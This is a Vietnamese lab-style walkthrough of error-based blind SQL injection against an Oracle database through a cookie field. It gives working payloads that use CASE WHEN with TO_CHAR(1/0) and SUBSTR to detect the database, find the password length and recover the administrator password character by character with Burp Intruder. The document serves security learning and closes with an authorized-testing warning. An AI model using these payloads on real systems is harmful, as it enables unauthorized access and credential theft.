








# Khai thác SQL Injection (Oracle) — Các bước chi tiết (B1 → B8)

Mô tả: Chuỗi thử nghiệm dùng kênh cookie để khai thác tài khoản `administrator`, xác định độ dài mật khẩu và brute‑force từng ký tự bằng cơ chế gây lỗi (HTTP 500) làm tín hiệu true/false.

---

## B1 — Phát hiện lỗ hổng

* Hành động: Thêm `'` vào trường cookie.
* Kết quả: Trang web trả về **HTTP 500**.
* Kết luận: Có **SQL injection** ở trường cookie.

## B2 — Thử truy vấn đơn giản
* Hành động: Gửi payload: `'|| (SELECT '') ||'` vào cookie.
* Kết quả: Web vẫn trả **500** (bất thường vì truy vấn hợp lệ).
* Giả thuyết: Cơ sở dữ liệu có thể là **Oracle** (khác cú pháp so với MySQL/Postgres).

## B3 — Kiểm chứng Oracle (DUAL)

* Hành động: Gửi `'|| (SELECT '' FROM DUAL) ||'` vào cookie.
* Kết quả: Web **không còn lỗi 500**.
* Kết luận: Hệ quản trị là **Oracle** (DUAL tồn tại và hoạt động).

## B4 — Tìm bảng chứa user
* Giả định: Bảng người dùng tên `USERS`.
* Hành động: `'|| (SELECT '' FROM USERS WHERE USERNAME='administrator') ||'`.
* Kết quả: Web **không bị lỗi 500** → có kết quả → bảng `USERS` tồn tại / chứa user.

## B5 — Xác định độ dài password bằng tín hiệu lỗi

* Vấn đề: Dùng `LENGTH(password)>40` trả về 200 bất kể đúng/sai.

* Giải pháp: Tạo tín hiệu true/false bằng cách ép gây lỗi chia cho 0 khi điều kiện đúng (HTTP 500 = true).

  Payload mẫu:

  ```sql
  ' || (SELECT CASE WHEN (LENGTH(password) > 40) THEN TO_CHAR(1/0) ELSE '' END FROM USERS WHERE USERNAME='administrator') || '
  ```

  * Nếu điều kiện **true** → thực hiện `TO_CHAR(1/0)` → gây lỗi → **HTTP 500**.
  * Nếu **false** → trả NULL/chuỗi rỗng → **HTTP 200**.

* Áp dụng thử trong Burp Suite: khi kiểm tra `> 40` trả 200 → suy ra **password ≤ 40**.

## B6 — Xác định độ dài chính xác bằng Burp Intruder

* Hành động: Dùng **Intruder** brute-force các giá trị độ dài.
* Kết quả: Giá trị `20` trả về **200** → suy ra **độ dài password = 20**.

## B7 — Brute-force từng ký tự

* Kỹ thuật: Dùng `SUBSTR(password, x, 1)` để kiểm tra ký tự tại vị trí `x`.

  Payload mẫu kiểm tra ký tự tại vị trí `i`:

  ```sql
  ' || (SELECT CASE WHEN (SUBSTR(password, i, 1) = 'X') THEN TO_CHAR(1/0) ELSE '' END FROM USERS WHERE USERNAME='administrator') || '
  ```

* Thực hiện brute-force theo tập ký tự (charset) cho từng vị trí, thu dần ký tự đúng.

## B8 — Lọc theo trạng thái HTTP 500 để thu mật khẩu

* Khi payload gây lỗi (500) → điều kiện đúng → xác định ký tự.
* Thu thập đủ ký tự cho 20 vị trí → ghép thành mật khẩu.
* **Khai thác thành công.**

---

**Ghi chú an toàn:** Chỉ thực hiện trên môi trường được phép (authorized testing). Việc tấn công hệ thống mà không có quyền là bất hợp pháp.
